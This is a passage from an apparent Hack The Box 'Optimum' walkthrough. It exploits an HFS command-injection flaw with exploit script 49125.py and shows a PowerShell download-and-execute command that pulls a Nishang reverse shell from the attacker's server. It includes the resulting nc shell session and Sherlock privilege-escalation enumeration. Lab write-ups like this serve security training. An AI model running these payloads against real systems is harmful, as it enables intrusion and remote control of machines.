 It seems working.
Using the given example on the code, I tried a command to download and execute powershell payload.
For the payload, I used nishang's powershell reverse shell : https://raw.githubusercontent.com/samratashok/nishang/refs/heads/master/Shells/Invoke-PowerShellTcp.ps1

```bash
┌──(kali㉿kali)-[~/htb/optimum]
└─$ python3 49125.py 10.10.10.8 80 "powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8000/rshell.ps1')"
http://10.10.10.8:80/?search=%00{.+exec|powershell.exe%20IEX%20%28New-Object%20Net.WebClient%29.DownloadString%28%27http%3A//10.10.14.3%3A8000/rshell.ps1%27%29.}
```

The webserver then receives the request.

```bash
┌──(kali㉿kali)-[~/htb/optimum]
└─$ python -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.8 - - [04/Mar/2025 11:16:23] "GET /rshell.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [04/Mar/2025 11:16:23] "GET /rshell.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [04/Mar/2025 11:16:23] "GET /rshell.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [04/Mar/2025 11:16:23] "GET /rshell.ps1 HTTP/1.1" 200 -
```

Then the listener got a shell.

```bash
┌──(kali㉿kali)-[~/htb/optimum]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.8] 49183
Windows PowerShell running as user kostas on OPTIMUM
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\kostas\Desktop>whoami
optimum\kostas
```



# Shell as `SYSTEM`

### Enumeration

Let's run `Sherlock` to find vulnerabilities.

```powershell
PS C:\Users\kostas\Desktop> .\Sherlock.ps1


Title      : User Mode to Ring (KiTrap0D)
MSBulletin : MS10-015
CVEID      : 2010-0232
Link       : https://www.exploit-db.com/exploits/11199/
VulnStatus : Not supported on 64-bit systems

Title      : Task Scheduler .XML
MSBulletin : MS10-092
CVEID      : 2010-3338, 2010-3888
Link       : https://www.exploit-db.com/exploits/19930/
VulnStatus : Not Vulnerable

Title      : NTUserMessageCall Win32k Kernel Pool Overflow
MSBulletin : MS13-053
CVEID      : 2013-1300
Link       : https://www.exploit-db.com/exploits/33213/
VulnStatus : Not supported on 64-bit systems
```